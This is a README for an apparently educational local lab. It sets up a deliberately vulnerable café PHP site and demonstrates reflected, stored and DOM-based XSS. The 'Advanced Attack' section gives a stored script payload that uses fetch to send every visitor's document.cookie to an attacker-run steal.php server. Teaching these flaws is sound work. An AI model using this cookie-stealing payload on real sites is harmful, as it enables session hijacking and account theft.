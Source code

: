 # ReadMe

## Setup

Steps to setup the environment.

> [!WARNING]
> Prerequisites: Download XAMPP  

### Setup MySQL (Running on port 8080)

- Start the Database Server on the XAMPP

- Go to `MySQL` 
  ```bash
  http://localhost:8080/phpmyadmin/
  ```
- Create the database
	- Database name: `db_745`
	- Table name: `reviews`
	- Fields: `Users`, `Comments`, `id`
	![picture 1](images/318ae36c81032737bc4e21d6887d339cc54bb4d3339f7bf3b26ba974e4634cae.png)  

### Setup Cafe Server

- Put `cafe` files in the following structure
	```
	xampp/htdocs/cafe/
	│── assets/				# images
	│── admin.php			# admin login page
	│── db.php				# Database connection file  
	│── index.php			# Main café homepage  
	│── recommendation.php	# DOM-Based XSS demo (dynamic content)  
	│── review.php			# Stored XSS demo (user reviews)  
	│── search.php			# Reflected XSS demo (search bar)  
	└── style.css			# Styling for the website  
	```
- Start the Web Server

- Go to the `cafe` website
  ```bash
  http://localhost:8080/cafe
  ```

### Setup Attacker's Server (Running on port 8000)

- Put attack file in the following structure
	```
	xampp/htdocs/attacker/
	│── log.txt			# stolen information (cookies)
	└── steal.php			# stealer code
	```

- Run the attacker server using php
	- Go to the attacker's working directory `xampp/htdocs/attacker/`
	- Open a powershell from here and run the following command
		```bash
 		C:/xampp/php/php -S 127.0.0.1:8000
		```
## Attack

Steps to attack the vulnerable websites

### **Reflected XSS**

The `search` page is vulnerable to `Refected XSS`.

Type in the following command to the search bar to execute an alert. The alert can  be replaced with more dangerous command.

```bash
<script>alert('XSS Attack!')</script>
```
![picture 2](images/7d29d04860bf17db24653480736e11b224aa69a063a02d46879812ec47cb5dd4.png)  

Command got executed.

![picture 3](images/7722ccbf59ac191c660bd78a90bb18756de9944e17aa55ba9e5c5a62fe003ea3.png)  


### **Stored XSS**

The `Review` page is vulnerable to `Stored XSS`.

Type in the following information to the respective fields to trigger an alert.
	- Username: Attacker
	- Review: <script>alert('Hacked!')</script>

```bash
<script>alert('Hacked!')</script>
```

![picture 4](images/8fdd29afff14ae78715405f81d6d40ef9cc8c8b44bfb4cfce7f130c1b2833451.png)  

Command got executed.

![picture 5](images/8fb52f44749eab45020e93876f5ef2a6bdab5e8f83876585ab4c98768615b213.png)  

### **DOM-based XSS**

The `Recommendations` page is vulnerable to `DOM-based XSS`.

Type the following information to the searchbox to trigger an alert.

```bash
<img src=x onerror="alert('XSS Attack')">
```
![picture 7](images/0503aa4ab076abe69a770889a50877de9344dd1261ca48a940b1e6ae64d9760d.png)  

Command got executed.

![picture 8](images/edfa812d518fb90f88ac9437445408755ccd0083132e43aeb83dfb74ef796fa5.png)  

## Advanced Attack

> [!WARNING]
> For this attack to succeed, the attacker php server needs to be running.

In the previous examples, the just execute the alert.

In this section, we'll try to steal cookies (including user login cookie) from the `Review` page.

As an attacker, type the following input to the respective fields in the `Review` page.
	- Username: Attacker
	- Review: `<script> fetch('http://localhost:8000/steal.php?cookie=' + document.cookie); </script>`

![picture 9](images/459c41dd8d46cd6559aa018fe5d29b9c596b894e2210038b93d8a61fc6592dfa.png)  

Every time a user use this page, the cookies will be sent to the attacker's server in file `log.txt`

![picture 10](images/0ac942705ee67ff16ac01950db4af7d9a92e524daa93e3bdef6cb779daaa1b16.png)  

The cookies are stolen.

![picture 11](images/f5373aaf1146fda23ae35c680fea5046866fced15a33784240678d2a748f0b3f.png)  



